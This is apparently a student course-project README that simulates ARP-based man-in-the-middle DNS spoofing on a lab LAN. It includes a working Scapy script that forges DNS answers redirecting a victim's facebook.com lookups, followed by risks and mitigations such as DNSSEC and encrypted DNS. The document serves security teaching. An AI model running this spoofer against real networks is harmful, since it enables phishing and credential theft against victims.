 
# 🕵️‍♂️ Man-in-the-Middle (MITM) DNS Spoofing Attack (Educational Simulation)

This repository contains a simulation of a **Man-in-the-Middle (MITM)** attack combined with **DNS spoofing** in a local network environment. It is intended for academic and educational use only, as part of the *Topics in Information Security (CS418)* course.

> ⚠️ **Disclaimer**: This project is for ethical and educational purposes only. Do not use it on networks without explicit permission. Unauthorized usage is illegal and unethical.

---

## 📌 Project Team
- **Bhakti Raju Karchi (221CS116)**
- **Gnanaeshwari KN (221CS218)**

Course Instructor: *Radhika B S*

---

## 🧠 Abstract

This project simulates a DNS spoofing attack using MITM tactics in a controlled LAN environment. Tools like **Scapy**, **arpspoof**, **Wireshark**, and **Zeek** are used to intercept and manipulate DNS queries, showcasing the redirection of victims to attacker-controlled servers.

---

## 🎯 Objective

- Simulate a DNS spoofing attack using MITM
- Analyze DNS packet redirection behavior
- Evaluate tools like Scapy, Wireshark, arpspoof, Zeek
- Understand real-world impact and risks
- Explore mitigation strategies (e.g., DNSSEC, DoH/DoT)

---

## 🧰 Tools and Environment

| Tool         | Purpose                                |
|--------------|-----------------------------------------|
| Scapy        | Craft and send spoofed DNS responses   |
| arpspoof     | Perform ARP poisoning for MITM         |
| Wireshark    | Capture and analyze network traffic    |
| Zeek         | Log and analyze suspicious behaviors   |

**OS Used:**
- Attacker: Ubuntu
- Victim: Windows

---

## 🔬 Methodology

1. Set up a local network with 3 nodes: Attacker, Victim, Gateway
2. Launch ARP spoofing to become MITM
3. Intercept DNS queries and inject spoofed responses
4. Use Wireshark and Zeek to analyze attack impact

---

## 🧾 Code Overview

MITM DNS Spoofing script in Python using Scapy:

```python
from scapy.all import *

victim_ip = "10.53.156.66"
spoof_domain = "facebook.com"
spoof_ip = "10.53.156.100"

def spoof_dns(pkt):
    if pkt.haslayer(DNSQR) and spoof_domain in pkt[DNSQR].qname.decode():
        ip = IP(dst=pkt[IP].src, src=pkt[IP].dst)
        udp = UDP(dport=pkt[UDP].sport, sport=53)
        dns = DNS(id=pkt[DNS].id, qr=1, aa=1, qd=pkt[DNS].qd,
                  an=DNSRR(rrname=pkt[DNSQR].qname, rdata=spoof_ip))
        spoof_pkt = ip/udp/dns
        send(spoof_pkt)
        print(f"[+] Spoofed DNS response sent to {pkt[IP].src}")

sniff(filter="udp port 53 and src " + victim_ip, prn=spoof_dns, iface="wlo1")
```

---

## 📊 Results

- **Victim redirected** to attacker's IP (fake page)
- **DNS spoofing confirmed** via packet captures
- **Zeek logs** showed DNS anomalies
- Attack successfully demonstrated in a local LAN

---

## 🔥 Security Risks

- **Phishing**: Victim sent to a fake website
- **Malware Injection**: Auto-download on redirect
- **Credential Theft**: Victim may submit login details
- **Corporate Espionage**: Intercepted internal traffic

---

## 🛡️ Mitigation Techniques

- **DNSSEC**: Authenticate DNS records with digital signatures
- **DoH / DoT**: Encrypt DNS queries to prevent tampering
- **ARP Spoof Detection**: Use `arpwatch`, `XArp`, etc.
- **VPN & Segmentation**: Encrypt traffic & isolate networks

---

## ✅ Conclusion

The simulation demonstrates how easily DNS spoofing can be performed when network protocols like ARP and DNS lack authentication. With simple tools, attackers can hijack DNS traffic, highlighting the urgent need for secure configurations such as **DNSSEC** and **encrypted DNS protocols**.

---

## 📚 References

1. https://gist.github.com/c3rb3ru5d3d53c/d9eb9d752882fcc630d338a6b2461777  
2. https://github.com/jaswanth6988/Network-Traffic-Monitoring-Using-Wireshark  
3. https://worldcomp-proceedings.com/proc/p2011/SAM4991.pdf  
4. https://versprite.com/blog/mitm-dns-spoofing/
